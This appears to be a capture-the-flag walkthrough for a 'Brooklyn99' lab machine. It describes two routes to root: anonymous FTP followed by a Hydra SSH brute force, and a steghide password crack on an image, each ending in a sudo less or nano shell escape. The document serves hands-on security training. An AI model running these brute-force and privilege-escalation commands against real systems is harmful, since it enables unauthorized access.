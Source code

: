# Brooklyn99 CTF

## Enumeration
Going to the site and checking the html we can see this 
```html 
<!-- Have you ever heard of steganography? -->
```
Intersting  
There is 2 intended way of rooting the box.   


------------
# Method one
### Nmap scan 
```bash
└─# nmap 10.10.15.26 -T5   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-26 07:33 EST
Nmap scan report for 10.10.15.26
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
````
### FTP 
I didnt check if FTP has **Anonymous** login enabled but tried it and we can login as anonymous. 

navigating  through we found this file
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
```
We can download the text file to your machine through get. (you can also use mget command)
The note we found is as follow
> From Amy,  
> Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

This might come in handy knowing jake ```"Detective Jake Peralta(holts voice)"``` uses weak password :).

**``Username : jake``**
lets try to brute force the accound jake with rock you

### Hydra
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt  10.10.15.26  ssh -t 4
```  
we used **jake** as the user and used argument **-P** to specify our world list with out IP and port we are attacking which is **ssh** 
``` bash
host: 10.10.15.26   login: jake   password: **********
```  
Oh dear jake u failed us hope this wont let me in .  
```ssh jake@'ur_ip_here'```  
And we are in. **Oh Jake Peralta Amy would be disappointed**

## Privilege Escalation
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ 
```
intersting jake can run /usr/bin/less as sudo. Lets go to [gtfobins.github.io](gtfobins) to check how we can privilege escalate our way.   
By searching less we found a way to escalte. We can run less binary as a superuser. we can spawn a shell with higher privilage 
```sudo less /etc/profile ```
```!/bin/sh```


```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
```


----------------
# Method 2
## Steganography
[https://0xrick.github.io/lists/stego](0xrick) Has good resources on Steganography tools to use.  
Lets explore some  
```bash
└─# exiftool brooklyn99.jpg 
ExifTool Version Number         : 
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 68 KiB
File Modification Date/Time     : 2020:05:26 05:01:39-04:00
File Access Date/Time           : 2022:02:26 05:38:36-05:00
File Inode Change Date/Time     : 2022:02:26 05:35:43-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
````
THis is the exiftool you can run more enumration using other toolds like **file** and **string**  
Running string returned lot of strings inside. Maybe we can check those. But an intersting thing to notice is when we tried to check if there is anyting inside the image using **steghide** it asks for a password. So lets run **stegcracker** to crack the password with common passwords.  


```bash
└─# stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 

Tried 20203 passwords
Your file has been written to: brooklyn99.jpg.out
**** //<= password

```` 
lets now go and extract the file inside the image.
```bash
└─# steghide extract -sf brooklyn99.jpg                        
Enter passphrase: 
wrote extracted data to "note.txt".
 ```
This is the note that is extracted
>Holts Password:
>**********@ninenine

>Enjoy!!

We got holts password. using hold as user name and the password we found we are in
```bash
└─# ssh holt@10.10.45.249
holt@brookly_nine_nine:~$ whoami
holt
```
## Privilege Escalation
Captain Ray Holt is can run **/bin/nano** binary as sudo . **Intersting**   
Going to gtfobin we found this
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
lets run it 


```bash
holt@brookly_nine_nine:~$ sudo nano

````
this will take us to nano Clicking control R and control x will enable us to execute system commands ruuning 
```reset; sh 1>&0 2>&0``` will give us shell as root

### Proof of concept 
```bash

Command to execute: reset; sh 1>&0 2>&0#                                                                            
# whoami
root
# 
````

We have found both ways to root the box. 
--------